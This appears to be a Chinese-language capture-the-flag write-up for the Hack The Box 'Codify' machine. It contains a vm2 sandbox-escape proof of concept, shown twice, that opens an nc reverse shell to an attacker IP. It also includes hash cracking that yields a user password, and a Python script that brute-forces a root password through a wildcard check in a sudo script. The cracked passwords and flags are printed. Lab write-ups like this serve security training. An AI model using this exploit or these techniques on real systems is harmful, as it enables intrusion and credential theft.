HTB | Codify vm2@3.9.16 中的沙箱逃逸


使用nmap进行端口扫描

```
nmap -sV -sC -v -oN codify 10.10.11.239
```

```
# Nmap 7.93 scan initiated Mon Jan  8 16:36:49 2024 as: nmap -sV -sC -v -oN codify 10.10.11.239
Nmap scan report for 10.10.11.239
Host is up (1.2s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
|_  256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jan  8 16:37:28 2024 -- 1 IP address (1 host up) scanned in 39.77 seconds
```

将codify添加到hosts，访问80端口发现是vm2沙盒版本为3.9.16



搜索发现这个版本之前有爆过沙盒逃逸[vm2@3.9.16 中的沙箱逃逸](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)

poc

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.24 5566  >/tmp/f');
}
`

console.log(vm.run(code));
```

直接用poc打



直接反弹shell

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.24 5566  >/tmp/f');
}
`

console.log(vm.run(code));
```

上传linpeas进行信息收集有一个数据库文件/var/www/contact/tickets.db




在/var/www/contact/tickets.db发现一个hash

```
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```




使用hashid进行识别hash类型

```
hashid hash
```




使用hashcat进行进行破解，先查找使用什么模式进行破解

```
hashcat --help | grep Blowfish
hashcat -m 3200 hash
```




爆破不出来

直接用john

```
john --wordlist=/usr/share/wordlists/rockyou.txt  hash
```



```
spongebob1
```

使用ssh登录到joshua

```
ssh joshua@10.10.11.239
```



```
b2a63c4a87cbf5b958c5d3438ebd1aa3
```

上传linpeas进行信息收集


使用sudo -l有无可提权点



可以看见这个是一个备份mysql的脚本，用户是root，这里需要验证root密码




在其他wp 找到的破解root密码用python编写的脚本，使用gpt加上了注释使我更容易理解

```
# 导入string和subprocess模块
import string
import subprocess
# 创建一个列表，包含所有的字母和数字
all = list(string.ascii_letters + string.digits)
# 初始化一个空字符串，用来存储密码
password = ""
# 初始化一个布尔值，用来判断是否找到密码
found = False

# 当没有找到密码时，循环执行以下操作
while not found:
    # 遍历所有的字母和数字
    for character in all:
        # 构造一个命令，用echo输出当前的密码加上一个字符，然后用*表示剩余的字符，再用sudo执行一个脚本
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        # 用subprocess模块运行命令，并获取标准输出和标准错误
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        # 如果标准输出中包含"Password confirmed!"，说明找到了一个正确的字符
        if "Password confirmed!" in output:
            # 把这个字符加到密码字符串中
            password += character
            # 打印当前的密码
            print(password)
            # 跳出当前的循环，继续下一个字符的搜索
            break
    # 如果遍历完所有的字母和数字都没有找到正确的字符，说明密码已经完整
    else:
        # 把布尔值设为True，结束循环
        found = True
```


在tmp中创建py文件并执行

```
python3 123.py
```




使用kljh12k3jhaskjh12kjh3登录到root

```
su root
```



```
b6372d94001c98779d94687098d1b13a
```

